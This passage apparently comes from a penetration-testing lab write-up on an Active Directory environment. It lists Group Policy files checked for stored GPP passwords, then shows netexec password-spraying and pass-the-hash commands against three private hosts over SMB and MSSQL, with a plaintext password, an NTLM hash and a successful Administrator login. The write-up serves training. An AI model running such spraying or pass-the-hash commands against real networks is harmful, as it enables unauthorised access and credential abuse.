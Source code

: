 ```json
        "secura.yzx/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol": {
            "atime_epoch": "2022-10-25 19:37:25",
            "ctime_epoch": "2022-10-25 19:37:25",
            "mtime_epoch": "2022-10-25 19:39:34",
            "size": "3.75 KB"
        },
        "secura.yzx/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/comment.cmtx": {
            "atime_epoch": "2022-10-25 19:35:37",
            "ctime_epoch": "2022-10-25 19:35:37",
            "mtime_epoch": "2022-10-25 19:39:34",
            "size": "807 B"
        },
        "secura.yzx/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/USER/Microsoft/RemoteInstall/oscfilter.ini": {
            "atime_epoch": "2022-10-25 19:34:04",
            "ctime_epoch": "2022-10-25 19:34:04",
            "mtime_epoch": "2022-10-25 19:39:34",
            "size": "40 B"
        },
        "secura.yzx/Policies/{6AC1786C-016F-11D2-945F-00C04FB984F9}/GPT.INI": {
            "atime_epoch": "2022-10-25 19:34:04",
            "ctime_epoch": "2022-10-25 19:34:04",
            "mtime_epoch": "2022-10-25 19:34:04",
            "size": "26 B"
        },
        "secura.yzx/Policies/{6AC1786C-016F-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf": {
            "atime_epoch": "2022-10-25 19:34:04",
            "ctime_epoch": "2022-10-25 19:34:04",
            "mtime_epoch": "2022-10-25 19:34:04",
            "size": "3.65 KB"
        }
```
=> some GPO policies to check out for potential credentials?
=> According to Google: `secura.yzx/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Services/Services.xml` is a GPP file that can contain a password.
=> Nope, the file does not contain a cpassword

## Password spraying

```bash
# SMB
netexec smb 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!'
# Nope

netexec smb 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!' --local-auth
# SMB         192.168.240.96  445    ERA              [+] ERA\apache:New2Era4.!

netexec smb 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -H a51493b0b06e5e35f855245e71af1d14
# Nope

netexec smb 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -H a51493b0b06e5e35f855245e71af1d14 --local-auth
# SMB         192.168.240.95  445    SECURE           [+] SECURE\Administrator:a51493b0b06e5e35f855245e71af1d14 (Pwn3d!)

# =====================================================================
# MSSQL
netexec mssql 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -H a51493b0b06e5e35f855245e71af1d14
# Nope
```